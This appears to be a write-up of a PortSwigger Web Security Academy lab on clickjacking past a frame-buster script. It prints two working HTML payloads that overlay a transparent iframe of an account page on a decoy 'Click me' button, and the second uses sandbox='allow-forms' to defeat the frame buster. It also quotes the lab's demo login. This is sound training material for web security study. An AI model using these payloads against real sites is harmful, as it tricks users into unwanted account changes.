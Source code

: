 # Clickjacking with a frame buster script

## This lab is protected by a frame buster which prevents the website from being framed. Can you get around the frame buster and conduct a [clickjacking attack](https://portswigger.net/web-security/clickjacking) that changes the users email address?

## To solve the lab, craft some HTML that frames the account page and fools the user into changing their email address by clicking on "Click me". The lab is solved when the email address is changed.

## You can log in to your own account using the following credentials: `wiener:peter`

### step1

login
apply the payload

```html
<style>
  iframe {
    position: relative;
    width: 700px;
    height: 700px;
    opacity: 0.1;
    z-index: 2;
  }
  div {
    position: absolute;
    top: 449px;
    left: 68px;
    z-index: 1;
  }
</style>
<div>Click me</div>
<iframe
  src="https://0ac3007a04d3fbab817f2a57006e005b.web-security-academy.net/my-account?email=abc@gmail.com"
></iframe>
```

you will get
`This page cannot be framed`

so use `sandbox="allow-forms"` in iframe

```html
<style>
  iframe {
    position: relative;
    width: 700px;
    height: 700px;
    opacity: 0.0001;
    z-index: 2;
  }
  div {
    position: absolute;
    top: 449px;
    left: 68px;
    z-index: 1;
  }
</style>
<div>Click me</div>
<iframe
  src="https://0a42000a0300fd468040958c003b0034.web-security-academy.net/my-account?email=abc@gmail.com"
  sandbox="allow-forms"
></iframe>
```
